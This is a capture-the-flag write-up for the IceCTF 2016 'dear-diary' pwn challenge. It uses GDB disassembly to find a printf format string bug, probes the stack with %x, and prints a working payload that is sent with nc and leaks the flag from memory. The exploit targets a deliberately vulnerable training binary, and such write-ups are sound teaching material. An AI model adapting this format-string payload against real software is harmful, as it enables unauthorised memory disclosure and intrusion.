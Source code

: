 # IceCTF-2016 : dear-diary-60

**Category:** Pwn
**Points:** 60
**Description:**

We all want to keep our secrets secure and what is more important than our precious diary entries? We made this highly secure diary service that is sure to keep all your boy crushes and edgy poems safe from your parents. nc diary.vuln.icec.tf 6501download file

## Writeup

Looking around the binary with GDB we can find that:
- the function `flag()` is called at the start of `main()` and it reads content from `./flag.txt` file.
- `print_entry` suffers of a string format vulnerability that allow us to read arbitrary memory addresses.

```sh
[dom28:ago:16 20:22:46] phra@kali ~/ctf/write-ups-2016 $ gdb ./dear_diary
(gdb) set disassembly-flavor intel
(gdb) disas print_entry 
Dump of assembler code for function print_entry:
   0x08048721 <+0>:     push   ebp
   0x08048722 <+1>:     mov    ebp,esp
   0x08048724 <+3>:     sub    esp,0x28
   0x08048727 <+6>:     mov    eax,DWORD PTR [ebp+0x8]
   0x0804872a <+9>:     mov    DWORD PTR [ebp-0x1c],eax
   0x0804872d <+12>:    mov    eax,gs:0x14
   0x08048733 <+18>:    mov    DWORD PTR [ebp-0xc],eax
   0x08048736 <+21>:    xor    eax,eax
   0x08048738 <+23>:    mov    eax,DWORD PTR [ebp-0x1c]
   0x0804873b <+26>:    mov    DWORD PTR [esp],eax
   0x0804873e <+29>:    call   0x8048490 <printf@plt>
   0x08048743 <+34>:    mov    eax,ds:0x804a080
   0x08048748 <+39>:    mov    DWORD PTR [esp],eax
   0x0804874b <+42>:    call   0x80484a0 <fflush@plt>
   0x08048750 <+47>:    mov    eax,DWORD PTR [ebp-0xc]
   0x08048753 <+50>:    xor    eax,DWORD PTR gs:0x14
   0x0804875a <+57>:    je     0x8048761 <print_entry+64>
   0x0804875c <+59>:    call   0x80484c0 <__stack_chk_fail@plt>
   0x08048761 <+64>:    leave  
   0x08048762 <+65>:    ret    
End of assembler dump.
(gdb) 
```
`*print_entry+29` calls `printf()` with only one argument, a `char*` pointer to a string that we control.

Now we need the address of the flag, so let\'s disassemble `flag()` function.

```sh
(gdb) disas flag 
Dump of assembler code for function flag:
   0x0804863d <+0>:     push   ebp
   0x0804863e <+1>:     mov    ebp,esp
   0x08048640 <+3>:     sub    esp,0x28
   0x08048643 <+6>:     mov    eax,gs:0x14
   0x08048649 <+12>:    mov    DWORD PTR [ebp-0xc],eax
   0x0804864c <+15>:    xor    eax,eax
   0x0804864e <+17>:    mov    DWORD PTR [esp+0x4],0x0
   0x08048656 <+25>:    mov    DWORD PTR [esp],0x8048940
   0x0804865d <+32>:    call   0x8048500 <open@plt>
   0x08048662 <+37>:    mov    DWORD PTR [ebp-0x10],eax
   0x08048665 <+40>:    mov    DWORD PTR [esp+0x8],0x100
   0x0804866d <+48>:    mov    DWORD PTR [esp+0x4],0x804a0a0
   0x08048675 <+56>:    mov    eax,DWORD PTR [ebp-0x10]
   0x08048678 <+59>:    mov    DWORD PTR [esp],eax
   0x0804867b <+62>:    call   0x8048480 <read@plt>
   0x08048680 <+67>:    mov    eax,DWORD PTR [ebp-0xc]
   0x08048683 <+70>:    xor    eax,DWORD PTR gs:0x14
   0x0804868a <+77>:    je     0x8048691 <flag+84>
   0x0804868c <+79>:    call   0x80484c0 <__stack_chk_fail@plt>
   0x08048691 <+84>:    leave  
   0x08048692 <+85>:    ret    
End of assembler dump.
```

So the address of the buffer where the flag is loaded is at `0x804a0a0`.
Now we need to find in the stack where to put the address value.

```sh
> [dom28:ago:16 20:54:58] phra@kali ~/ctf/icectf/diary $ echo -ne "1\nAABB%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x\n2\n3\n" | ./dear_diary
-- Diary 3000 --

1. add entry
2. print latest entry
3. quit
> Tell me all your secrets: 
1. add entry
2. print latest entry
3. quit
> AABBf75fa836|f7771000|ffc751b8|ffc765b8|0|a|84e1a800|0|0|ffc765c8|804888c|ffc751b8|4|f7771c20|0|0|1|42424141

1. add entry
2. print latest entry
3. quit
```
We can insert an arbitrary value on the stack and then trigger the format string vulnerability. Let's do it.

### PAYLOAD EXAMPLE
```
                   1\n\xa0\xa0\x04\x08%f%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%s\n2\n3\n
                       ^^^^^^^^^^^^^^^                                ^^
                       |||||||||||||||                                ||
                       |_______________________________________________|
                    address of flag                     format string exploitation
```

### EXPLOITING:
```sh
> [lun22:ago:16 00:48:01] phra@kali ~/ctf/icectf/diary $ echo -ne "1\n\xa0\xa0\x04\x08%f%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%s\n2\n3\n" | nc diary.vuln.icec.tf 6501
-- Diary 3000 --

1. add entry
2. print latest entry
3. quit
> Tell me all your secrets: 
1. add entry
2. print latest entry
3. quit
>-2353853267122949880488228771336605507975940228259531131213483876911033610747119179881566931135505952160644480871830309847003193621900077982680289929588490075567303710965080432136832255512352674224129626420279574654921909982545998909142624828095873782519863311234760704.000000ffd440a8ffd454a80a6df56b0000ffd454b8804888cffd440a84f7724c20001IceCTF{this_thing_is_just_sitting_here}


1. add entry
2. print latest entry
3. quit
```
We have found the flag `IceCTF{this_thing_is_just_sitting_here}`.

## Other write-ups and resources

* https://github.com/Alpackers/CTF-Writeups/tree/master/2016/IceCTF/Stage_2/DearDiary
* https://github.com/EspacioTeam/write-ups/tree/master/2016/icectf/Dear%20diary
* https://github.com/1amtom/writeups/tree/master/2016-08-16-IceCTF/pwn-60-dear-diary
* https://github.com/73696e65/ctf-notes/blob/master/2016-IceCTF/Dear_diary-Pwn-60.txt
* https://github.com/WCSC/writeups/tree/master/icectf-2016/dear_diary
* [Japanese](https://ctftime.org/writeup/3813)
* https://github.com/318BR/IceCTF/tree/master/2016/Stage2/Dear_Diary
* https://youtu.be/oFscG4xsDXY
* http://dylanfw.com/blog/2016/08/27/format-string-exploitation-icectf-2016/
